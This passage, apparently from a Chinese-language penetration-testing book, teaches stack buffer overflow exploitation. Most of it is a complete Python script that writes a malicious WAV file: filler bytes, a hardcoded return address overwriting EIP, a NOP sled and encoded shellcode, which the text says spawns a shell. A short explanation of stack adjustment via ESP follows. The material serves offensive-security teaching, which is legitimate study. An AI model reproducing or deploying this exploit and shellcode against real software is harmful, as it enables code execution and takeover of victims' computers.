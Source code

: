 放置在利用代码中，我们得到以下 Python 利用程序：

```py
#!/usr/bin/env python
import struct
filename="exploit.wav"
fill ="A"*4112
eip = struct.pack('<I',0x7C874413)
offset = "\x90"*10
available_shellcode_space = 320
shell =("\xba\x16\xdf\x1b\x5d\xd9\xf6\xd9\x74\x24\xf4\x5e\x31\xc9\xb1"
"\x2d\x31\x56\x13\x83\xc6\x04\x03\x56\x19\x3d\xee\xa1\x4f\x2a"
"\x56\xb2\x76\x53\xa6\xbd\xe8\x9d\x82\xc9\x95\xe1\xbf\xb2\x58"
"\x62\xc1\xa5\x29\xc5\xe1\x38\xc7\x61\xd5\xa0\x16\x98\x27\x15"
"\x81\xc8\x89\x5f\xbc\x11\xc8\xe4\x7e\x64\x3a\xa7\x18\xbe\x08"
"\x5d\x07\x8b\x07\xd1\xe3\x0d\xf1\x88\x60\x11\x58\xde\x39\x36"
"\x5b\x09\xc6\x6a\xc2\x40\xa4\x56\xe8\x33\xcb\x77\x21\x6f\x57"
"\xf3\x01\xbf\x1c\x43\x8a\x34\x52\x58\x3f\xc1\xfa\x68\x61\xb0"
"\xa9\x0e\xf5\x0f\x7f\xa7\x72\x03\x4d\x68\x29\x85\x08\xe4\xb1"
"\xb6\xbc\x9c\x61\x1a\x13\xcc\xc6\xcf\xd0\xa1\x41\x08\xb0\xc4"
"\xbd\xdf\x3e\x90\x12\x86\x87\xf9\x4a\xb9\x21\x63\xcc\xee\xa2"
"\x93\xf8\x78\x54\xac\xad\x44\x0d\x4a\xc6\x4b\xf6\xf5\x45\xc5"
"\xeb\x90\x79\x86\xbc\x02\xc3\x7f\x47\x34\xe5\xd0\xf3\xc6\x5a"
"\x82\xac\x85\x3c\x9d\x92\x12\x3e\x3b")
nop = "\x90"*(available_shellcode_space-len(shell)-len(offset))
exploit = fill + eip + offset + shell + nop
open('exploit.wav', 'w').close()
writeFile = open (filename, "w")
writeFile.write(exploit)
writeFile.close()
```

执行时，我们得到以下结果，显示利用程序生成了一个 shell：

![编写基本的缓冲区溢出利用](img/B04315_08_36.jpg)

现在，这个例子很简单，它可能为系统提供一个本地利用，但有一个问题，我们的利用失败了，因为空间不够。如前所述，我们必须调整我们放置 shell 代码的区域。

# 理解堆栈调整

我们表明代码执行在中间利用失败，因为我们的第二阶段在内存中破坏了我们的第一阶段代码。因此，我们需要更多的堆栈空间来完成这个利用。如果必要的话，我们可以在内存中分割我们的代码，或者我们可以简单地扩展堆栈中的空间。

这是通过告诉系统向 ESP 添加空间来完成的。您可以通过两种方式之一来实现这一点：通过添加负空间或减去正空间。这是因为堆栈从高地址向低地址增长，正如我们之前提到的那样。
